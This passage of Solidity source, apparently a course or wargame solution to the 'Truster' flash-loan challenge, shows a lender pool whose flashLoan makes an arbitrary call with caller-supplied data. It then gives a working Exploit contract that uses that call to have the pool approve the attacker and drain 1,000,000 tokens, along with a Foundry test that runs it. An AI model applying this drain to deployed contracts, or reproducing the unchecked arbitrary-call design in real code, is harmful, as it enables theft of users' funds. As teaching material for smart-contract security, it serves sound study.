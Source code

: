 ```
        address target,
        bytes calldata data
    )
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore) {
            revert RepayFailed();
        }

        return true;
    }
}

contract Exploit {
    TrusterLenderPool public trusterLenderPool;
    DamnValuableToken public dvt; //ERC20-like

    constructor(TrusterLenderPool _trusterLenderPool, DamnValuableToken _dvt) {
        trusterLenderPool = _trusterLenderPool;
        dvt = _dvt;
    }

    function exploit() public {
        uint256 approveAmount = 1_000_000 ether;
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), approveAmount);
        trusterLenderPool.flashLoan(0 ether, address(this), address(dvt), data);
        dvt.transferFrom(address(trusterLenderPool), msg.sender, approveAmount);
    }
}
```
- `test/Week10-11/TrusterLenderPool.t.sol`
```
contract TrusterLenderPoolTest is Test {
    TrusterLenderPool pool;
    DamnValuableToken token;
    Exploit exploitContract;
    address deployer;
    address player;

    function setUp() public {
        token = new DamnValuableToken();
        pool = new TrusterLenderPool(token);
        assertEq(address(pool.token()), address(token));

        token.transfer(address(pool), 1_000_000 * 10 ** 18);
        assertEq(token.balanceOf(address(pool)), 1_000_000 * 10 ** 18);
        assertEq(token.balanceOf(player), 0);

        exploitContract = new Exploit(pool, token);
    }

    function testExploit() public {
        vm.startPrank(player);
        exploitContract.exploit();
        _checkSolved();
```